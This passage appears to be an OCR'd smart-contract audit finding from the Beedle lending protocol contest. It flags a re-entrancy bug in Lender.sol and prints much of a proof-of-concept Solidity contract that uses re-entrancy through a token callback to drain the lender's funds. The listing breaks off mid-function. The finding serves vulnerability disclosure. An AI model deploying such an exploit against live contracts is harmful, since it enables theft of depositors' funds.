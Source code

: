 ```solidity
            IERC20(p.loanToken).transfer( // @audit - Critical Re-entrancy can drain contract
                p.lender,
                currentBalance - p.poolBalance
            );
        }
```
https://github.com/Cyfrin/2023-07-beedle/blob/658e046bda8b010a5b82d2d85e824f3823602d27/src/Lender.sol#L159


## Impact
### POC
An attacker can use the following exploit contract to drain the `lender` contract:
```solidity
File: Exploit3.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {WeirdToken} from "./WeirdToken.sol";
import {ERC20} from "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import "../utils/Structs.sol";
import "../Lender.sol";

contract Exploit3  {
    Lender lender;
    Pool pool;

    constructor(Lender _lender) {
        lender = _lender;
    }

    function attack(address _loanToken, uint256 _poolBalance) external {
        ERC20(_loanToken).approve(address(lender), _poolBalance);
        // [1] Create a new pool
        Pool memory p = Pool({
            lender: address(this),
            loanToken: _loanToken,
            collateralToken: address(0),
            minLoanSize: 10*10**18,
            poolBalance: _poolBalance,
            maxLoanRatio: 2*10**18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        lender.setPool(p);
        // [2] Update pool with 0 poolBalance
        p.poolBalance = 0;
        pool = p;
        lender.setPool(p);
        // [3] Send the funds back to the attacker
        ERC20(_loanToken).transfer(msg.sender, ERC20(_loanToken).balanceOf(address(this)));
    }

    function tokensReceived(address from, address /*to*/, uint256 amount) external {
        Pool memory p = pool;
        require(msg.sender == p.loanToken, "not collateral token");
        if (from == address(lender)) {
            uint256 lenderBalance = ERC20(p.loanToken).balanceOf(address(lender));
            if (lenderBalance > 0) {
                // Re-enter
```